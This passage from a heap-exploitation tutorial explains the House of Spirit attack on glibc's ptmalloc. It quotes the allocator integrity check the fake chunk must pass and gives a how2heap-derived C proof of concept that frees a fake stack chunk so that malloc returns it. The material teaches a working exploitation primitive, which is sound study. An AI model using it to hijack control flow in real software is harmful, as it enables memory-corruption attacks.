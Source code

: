 As expected, the chunk `0x9214008`, after being freed twice, was subsequently re-allocated twice.

## The House of Spirit

A clever heap exploit, that builds up a _write to anywhere_ primitive, by crafting a fake heap chunk and stores it back into fastbins via a `free()`. Later, the specially crafted fake chunk is is allocated back to the vulnerable program through a subsequent `malloc()` call. Control flow can be hijacked if the code that uses the second `malloc()'ed` fake chunk, attempts to modify the user data within the fake heap chunk, which by design is laid out across stack memory (@phrack).

To add a complication, `ptmalloc` performs an integrity check, which must be satisified:

    if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
    || __builtin_expect (chunksize (chunk_at_offset (p, size))
                                    >= av->system_mem, 0))

In order to bypass this check, the fake chunk's `size`, and the `size` of its the next chunk must be set. Below is a slightly modified version of @how2heap, which is effective against the latest version of glibc (2.29) as of October 2019:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "Setup pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (size %lu) holds two chunks\n",
		sizeof(fake_chunks));

	fprintf(stderr, "1st at %p and 2nd at %p\n",
		&fake_chunks[1], &fake_chunks[9]);

	fake_chunks[1] = 0x40; // this is the size

	// fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Set pointer to address of user data in fake first chunk, %p\n",
		&fake_chunks[1]);

	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the fake chunk\n");
	free(a);

	fprintf(stderr, "malloc will return fake chunk at %p, user data offset at %p!\n",
		&fake_chunks[1], &fake_chunks[2]);

	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
